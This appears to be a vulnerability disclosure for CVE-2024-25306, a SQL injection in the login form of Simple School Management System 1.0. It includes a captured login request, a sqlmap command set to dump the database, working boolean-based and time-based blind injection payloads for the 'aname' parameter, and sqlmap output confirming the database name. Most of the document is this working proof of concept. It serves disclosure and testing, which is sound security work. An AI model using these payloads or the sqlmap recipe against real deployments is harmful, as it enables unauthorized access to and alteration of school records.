 # CVE-2024-25306 - Simple School Managment System - SQL Injection - 1
+ **Exploit Title:** Simple School Managment System - SQL Injection - 1
+ **Date:** 2024-01-02
+ **Exploit Author:** Tuba Kavgacı
+ **Vendor Homepage:** https://code-projects.org/simple-school-management-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/d10e92aa-e37f-46fd-9bf8-45878956d7c0
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2024-25306

## Description:
Simple School Managment System 1.0 allows SQL Injection via the 'aname' parameter at "School/index.php". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/School/index.php"
+ Try logging in by typing random things
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
POST /School/index.php HTTP/1.1
Host: localhost
Content-Length: 30
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/School/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=hidk6npo6f802og8sqcir2veul
Connection: close

aname=selam&apass=selam&login=

```

+ Use sqlmap to exploit. In sqlmap, use 'aname' parameter to dump the database.
```
sqlmap -r r.txt -p aname --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: aname (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: aname=selam' OR NOT 2988=2988-- YxQi&apass=selam&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: aname=selam' AND (SELECT 4921 FROM (SELECT(SLEEP(5)))beXo)-- lkco&apass=selam&login=
---
[04:04:30] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[04:04:30] [INFO] fetching current database
[04:04:30] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[04:04:30] [INFO] retrieved: school
current database: 'school'

```
+ current database: `school`

![Ekran görüntüsü 2024-02-01 122322](https://github.com/tubakvgc/CVEs/assets/74067343/f2cb156e-897c-402d-8233-553a9929b52b)
